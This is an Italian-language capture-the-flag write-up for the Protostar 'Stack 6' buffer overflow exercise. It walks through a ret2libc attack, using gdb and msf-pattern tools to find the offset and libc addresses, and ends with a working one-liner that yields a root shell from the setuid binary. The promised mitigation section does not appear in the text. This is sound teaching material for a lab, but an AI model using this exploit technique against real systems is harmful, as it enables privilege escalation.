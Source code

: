 #### Introduzione
Protostar risulta essere una macchina virtuale contenente esercizi di sicurezza. Precisamente introduce problemi di danneggiamento della memoria di base come “buffer overflow", “format strings” e “sfruttamento dell’heap in un sistema Linux vecchio stile”. Per “vecchio stile” intendiamo un sistema che non presenta alcuna forma di moderni sistemi di mitigazione abilitata.
Per chiarezza, ciascun esercizio corrisponde ad un livello, per un totale di 24 esercizi suddivisi per temi.
In questo documento tratteremo dell’esercizio Stack 6, legato alla tematica “Stack - Based Buffer Overflow”. In particolare, introdurremo l’esercizio in sé, due possibili soluzioni per vincere la CTF e, infine, eventuali mitigazioni da applicare per evitare che l’attacco avvenga con successo.

#### Traccia

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```
Questo livello può essere fatto in diversi modi. Si consiglia vivamente di sperimentare diversi modi per vincere la sfida.
Obiettivo della sfida: eseguire del codice arbitrario a tempo di esecuzione.
I passi da applicare per arrivare alla soluzione della sfida sono:
1.	Raccolta di informazioni sul sistema.
2.	Aggiornare l’albero d’attacco. 
3.	Individuare un percorso possibile e provare l’attacco.
4.	Se l’attacco riesce, la sfida è vinta. 
5.	Se l’attacco non riesce, ricominciare dal punto 1.

#### Raccolta delle informazioni
Il programma stack6 accetta input locali, ovvero accetta stringhe generiche inviate tramite tastiera o altro processo (pipe).
Inoltre, esaminando i metadati di stack6, attraverso il comando ls -l stack6 scopriamo che ha il bit SETUID acceso a ROOT (quindi eseguire il programma e vincere la sfida ci permette di ottenere i privilegi dell’utente ROOT).

####ret2libC
Ret2libc permette di aggirare il filtro sull’indirizzo di ritorno. La strategia sfrutta il fatto che la libreria libc viene caricata in memoria e utilizzata anche dal programma stesso.
In questo modo, è possibile impostare l'indirizzo di ritorno all'indirizzo di una qualsiasi funzione della libreria C.
Per prendere il controllo del programma useremo la funzione system(). Sovrascriveremo parte dello stack impostato prima di chiamare getpath() e inietteremo manualmente i frame dello stack per chiamare system(). In particolare, sovrascriveremo l'indirizzo di ritorno di getpath() con system(). Il payload da iniettare nel seguente modo:
"padding + system + exit+/bin/sh"
La funzione exit() viene inserita dopo la system() per assicurarsi che il programma termini correttamente dopo l'esecuzione del comando di shell. 
L'invocazione di exit() garantisce che il programma vittima non continui l'esecuzione oltre il punto in cui è stato sovrascritto il puntatore di ritorno. Subito dopo l'indirizzo di exit(), c'è un puntatore a una posizione di memoria che contiene la stringa /bin/sh, che è l'argomento che vogliamo passare alla funzione system().

padding + system + exit + /bin/sh

I caratteri di padding sono utili in quanto sovrascrivono buffer, spazio lasciato dall’allineamento dello stack, EBP salvato, permettendo di arrivare all’indirizzo di ritorno. Per fare ciò vediamo due tecniche:

1.	Prima tecnica utilizza il gdb (GNU Debugger)
GDB è il debugger predefinito di GNU/Linux che permette di visualizzare cosa accade in un programma durante l’esecuzione o al crash. Attraverso GDB, disassembliamo la funzione getpath e osserviamo l’istruzione lea (load effective address). 
L’istruzione lea carica -0x4c(%ebp) in EAX. Quindi la distanza tra l’inizio del buffer destinato a contenere l’input dell’utente e la cella contenente il saved EBP è 0x4c (=76) byte. Poiché la cella contenente il saved EBP è di 4 byte, servono 76+4=80 byte per raggiungere la cella dell’indirizzo di ritorno

2.	La seconda tecnica prevede l’utilizzo di Metaspoitable Framework. In particolare, utilizziamo due tool:
a.	msf-pattern_create: permette di generare pattern di byte personalizzati di lunghezza specifica.
b.	msf-pattern_offset: consente di identificare l'offset di memoria a cui si trova un valore specifico o un puntatore all'interno di un pattern generato con msf-pattern_create.
Dunque, creiamo dapprima il pattern, specificando una lunghezza sufficientemente grande per il nostro scopo (es. 120). Dopodiché, eseguiamo stack6 tramite gdb, quando ci chiede di inserire la path, incolliamo il pattern precedentemente creato.
Otterremo un messaggio di errore con un determinato indirizzo. A questo punto copiamo l’indirizzo ed effettuiamo una query al secondo tool nel seguente modo:

```console
$ msf-pattern_offset -l 120 -q 0x37634136
[*] Exact match at offset 80
```

Poi seguiamo i seguenti passi:
1.	Trovare l’indirizzo di system() tramite gdb. Inseriamo un breakpoint e partiamo con l’esecuzione. Dopodiché eseguiamo:
p system
0xb7ecffb0 <__libc_system>.
2.	Trovare l’indirizzo di exit:
p exit
0xb7ec60c0 <*__GI_exit>
3.	Troviamo /bin/sh all’interno della libc. Prima individuiamo l’indirizzo in cui inizia libc:
(gdb) info proc mapping
libc inizia all’indirizzo 0xb7e97000. Poiché /bin/sh è una stringa in libc, possiamo trovare l'offset dall'inizio del file:
strings -a -t  x /lib/libc-2.11.2.so | grep /bin/sh
11f3bfL /bin/sh
Avendo individuato l’offset, calcoliamo l’indirizzo di /bin/sh
(python) hex(0xb7e97000 + 0x11f3bfL)
'0xb7fb63bf'
4.	Possiamo verificarlo su gdb:
(gdb) x/s 0xb7fb63bf
0xb7fb63bf:  "/bin/sh"

EXPLOIT FINALE:
```console
python -c "print 'A' * 80 + '\xb0\xff\xec\xb7' + '\xc0\x60\xec\xb7' + '\xbf\x63\xfb\xb7'" > /tmp/exploit

cat /tmp/exploit; cat) | ./stack6
```

Attraverso l’exploit finale riusciamo ad ottenere la shell con i permessi di ROOT e vincere la sfida.

